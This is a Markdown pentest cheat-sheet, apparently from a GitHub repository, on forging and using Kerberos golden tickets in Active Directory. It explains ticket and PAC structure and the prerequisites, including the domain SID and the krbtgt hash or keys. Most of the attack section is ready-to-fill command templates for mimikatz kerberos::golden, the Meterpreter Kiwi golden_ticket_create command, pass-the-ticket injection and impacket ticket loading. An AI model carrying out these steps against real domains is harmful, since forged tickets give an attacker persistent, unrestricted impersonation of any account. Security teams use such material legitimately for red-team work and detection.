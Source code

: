 # Active Directory - Kerberos Golden Tickets

### Overview

`Kerberos` is an authentication protocol, used within Active Directory that
rely on the use of tickets to identify users and grant access to domain
resources. `Kerberos` implements two type of tickets, issued by two distinct
services of the `Key Distribution Center (KDC)`:
  - `Ticket-Granting Ticket (TGT)`, obtained from the `Authentication Service
  (AS)`
  - `service tickets`, obtained from the `Ticket-Granting Service (TGS)`.

A `TGT` is generally requested by an user through a `KRB_AS_REQ` request to the
`AS` of the `KDC` during the login process on a Windows system integrated to an
Active Directory domain. `TGTs` are encrypted using one of the secrets
(`RC4 key`, whose value is identical to the `NTLM` hash, or `AES 128/256 bits
keys`) of the `krbtgt` account of the domain. After reception of the `TGT`,
in a `KRB_AS_REP` response from the `KDC`, `TGT` are stored in memory by the
client in the `Security Support Provider (SSP) Kerberos` of the `Local Security
Authority Server Service (LSASS)` process.

An user authentication data is stored encrypted (using one of the secrets of
the `krbtgt` account) in the `Privilege Attribute Certificate (PAC)` of the
`TGT` and includes:
  - The `Domain SID` and `User RID`, which combination form the user's current
  `Security Identifier (SID)`
  - the user's `SIDs` kept in its `SIDHistory` attribute
  - The `GROUP_MEMBERSHIP_ARRAY` which contains the user's group memberships,
  in the form of the groups `Relative ID (RID)`.

Whenever generating a `service ticket`, the `TGT`'s `PAC` will be decrypted by
the `KDC`, signed using both one of the secrets of the `krbtgt` account
(`KDC Signature`) and of the targeted service account (`Server Signature`), and
ultimately encrypted using one of the secrets the targeted service account.

`Golden tickets` are `TGT` forged with arbitrary authentication data. Indeed,
the specified username, groups `RID` and `SIDs` will be added to the forged
ticket `PAC`. The `golden ticket` can be injected in the current user session
and used to directly request `service tickets` from the `TGS`.

To generate a `golden ticket`, the following prerequisites are needed:
  - The fully qualified domain name and the `SID` of the targeted domain.
  - One of the secrets of the targeted domain `krbtgt` account. The `krbtgt`
  `RC4` key, corresponding to the `NTLM hash` of the `krbtgt` password, as
  well as the `AES 128/256 bits` keys can be used.

Note that while the user account specified for the `golden ticket` must be a
member of the targeted domain, the arbitrary SIDs added in the SID history of
the forged ticket (`ExtraSids` field of the `PAC`) can come from external
domains or forests (for which trusts relationships are configured).

### Golden tickets generation

###### mimikatz

The `mimikatz` `kerberos::golden` module can be used to generate
`golden tickets`:

```
# Powershell RATS
Get-ADDomain | Ft DNSRoot, DomainSID

mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN_FQDN> /sid:<DOMAIN_SID> </rc4:<KRBTGT_NTLM> | /aes128:<KRBTGT_AES128> | /aes256:<KRBTGT_AES256>> [/groups:<RID | RID_LIST>] [/sids:<EXTRA_SID | EXTRA_SIDS_LIST>]
```

###### mimikatz with Metasploit

`mimikatz` 2.0 is available in a `meterpreter` shell as the `Kiwi` extension.

To following command can be used to load the extension in memory on a
`meterpreter` shell: `use kiwi`

Once the module has been loaded, the `golden_ticket_create` command can be
used to create a golden ticket:

```
golden_ticket_create -d '<FQDN_DOMAIN>' -s '<SID_DOMAIN>' -k '<KRBTGT_HASH>' -u '<USERNAME>' -t '<FULL_SAVE_PATH>'

Usage: golden_ticket_create [options]
OPTIONS:
    -d <opt>  FQDN of the target domain (required)
    -g <opt>  Comma-separated list of group identifiers to include (eg: 501,502)
    -h        Help banner
    -i <opt>  ID of the user to associate the ticket with
    -k <opt>  krbtgt domain user NTLM hash
    -s <opt>  SID of the domain
    -t <opt>  Local path of the file to store the ticket in (required)
    -u <opt>  Name of the user to create the ticket for (required)
```

Tickets can be loaded/purged using the `kerberos_ticket_use` and
`kerberos_ticket_purge` commands:

```
kerberos_ticket_use <FULL_SAVE_PATH>
kerberos_ticket_purge
```

### Golden tickets usage (Pass-the-Ticket)

On Windows, `golden tickets` generated using `mimikatz` will be automatically
injected in memory if the `/ptt` option is specified. Otherwise, an exported
`golden ticket` can be injected in memory using `mimikatz.exe "kerberos::ptt
<TICKET_FILE_PATH>`.

The `klist` Windows built-in utility can then be used to list the currently
cached `Kerberos` tickets for the present user session:

```
CMD> klist

Cached Tickets: (X)
[...]
```

On Linux, a `golden ticket` generated using `ticketer.py` can be exported in
the `KRB5CCNAME` environment variable for futher use through tools supporting
the `Kerberos` protocol, such as others `impacket` Python utilities:

```
# Loads the ticket from the specified file
export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>

# Loads all the tickets in the specified directory. The tickets filename must follow the filename tkt*
# Infortunately loading Kerberos tickets from a directory is not supported by many tools
export KRB5CCNAME=DIR:<TICKETS_CCACHE_DIR_PATH>

# From krb5-user (Debian based distro) / krb5 paquet
klist -A
```

On a `meterpreter` shell, the `kiwi` `kerberos_ticket_list` command can be
used instead:

```
kerberos_ticket_list
```
